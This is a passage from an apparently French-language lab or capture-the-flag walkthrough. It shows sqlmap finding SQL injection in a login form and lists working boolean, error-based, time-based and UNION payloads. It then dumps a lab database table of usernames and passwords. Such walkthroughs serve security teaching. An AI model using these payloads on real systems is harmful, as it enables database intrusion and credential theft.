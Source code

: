 ```bash
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: user_name=alice&password=Letm3in' OR NOT 1015=1015#&Submit_button=Submit

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: user_name=alice&password=Letm3in' OR ROW(9200,1077)>(SELECT COUNT(*),CONCAT(0x71716a7071,(SELECT (ELT(9200=9200,1))),0x71786b7171,FLOOR(RAND(0)*2))x FROM (SELECT 4202 UNION SELECT 2792 UNION SELECT 7451 UNION SELECT 1936)a GROUP BY x)-- zhJF&Submit_button=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: user_name=alice&password=Letm3in' OR SLEEP(5)-- FSWk&Submit_button=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: user_name=alice&password=Letm3in' UNION ALL SELECT CONCAT(0x71716a7071,0x7942424a716a444d506c6a614248675a597271517156766a6c4479574858536971594d5749555a54,0x71786b7171),NULL,NULL,NULL#&Submit_button=Submit
---
[16:15:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 4.1
[16:15:27] [INFO] fetched data logged to text files under '/home/sirius/.sqlmap/output/192.168.242.135'

[*] ending @ 16:15:27 /2022-12-04/
```

`sqlmap` a bien détecté la vulnérabilité en mode error-based ainsi que l'utilisation possible de `UNION`. On peut relancer en lui indiquant de dumper (après une rapide énumération) la table qui nous intéresse en rajoutant les options `-D creds -T accounts --dump` :

```
Database: creds                                                                                                                                                                                                  
Table: accounts
[11 entries]
+-----+--------+------------+----------------------+
| cid | upload | username   | password             |
+-----+--------+------------+----------------------+
| 1   | 0      | alamo      | Ih%40cK3dM1cR05oF7   |
| 2   | 1      | etenenbaum | P3n7%40g0n0wN3d      |
| 3   | 1      | gmckinnon  | d15cL0suR3Pr0J3c7    |
| 4   | 1      | hreiser    | Ik1Ll3dNiN%40r315er  |
| 5   | 1      | jdraper    | p1%40yIngW17hPh0n35  |
| 6   | 1      | jjames     | %40rR35t3D%40716     |
| 7   | 1      | jljohansen | m%40k1nGb0o7L3g5     |
| 8   | 1      | kpoulsen   | wH%407ar37H3Fed5D01n |
| 9   | 0      | ltorvalds  | f%407H3r0FL1nUX      |
| 10  | 1      | mrbutler   | n%405aHaSw0rM5       |
| 11  | 1      | rtmorris   | Myd%40d51N7h3NSA     |
+-----+--------+------------+----------------------+
```
